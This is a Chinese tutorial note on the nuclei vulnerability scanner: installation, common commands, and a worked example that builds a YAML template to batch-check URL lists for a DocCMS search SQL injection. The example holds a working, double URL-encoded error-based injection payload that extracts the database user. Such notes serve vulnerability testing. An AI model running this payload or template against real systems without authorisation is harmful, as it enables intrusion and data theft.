- [常用命令](#常用命令)
- [Example-1 批量检测POC](#example-1-批量检测poc)

> 漏洞扫描，批量检测，自定义POC https://github.com/projectdiscovery/nuclei

下载安装
```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

相关链接
- [官方使用文档](https://nuclei.projectdiscovery.io/templating-guide/protocols/http/)
- [README_CN](https://github.com/projectdiscovery/nuclei/blob/master/README_CN.md)

## 常用命令

```
# 使用模板模板扫描单个 URL
nuclei -u example.com -t template.xml

# 使用模板扫描文件内 url
nuclei -l URL.txt -t xxx.yaml

# 保存扫描结果到 result.txt
nuclei [options] -o result.txt

# 简化输出结果 重试次数5 超时时间10s
nuclei [options] -nm -retries 5 -timeout 10
```

## Example-1 批量检测POC
向URL列表发送指定GET参数获取相应返回结果
- 请求URL：`https://example.com/search/index.php`
- 请求参数(GET)：`keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33`
- 获取响应内容包含 `ORDER BY id DESC` 的结果

自定义yaml模板
```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```

至此单个测试成功

![图 4](../../../@attachment/images/Security/安全工具/nuclei_1661280665338.png)  

指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描

```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```
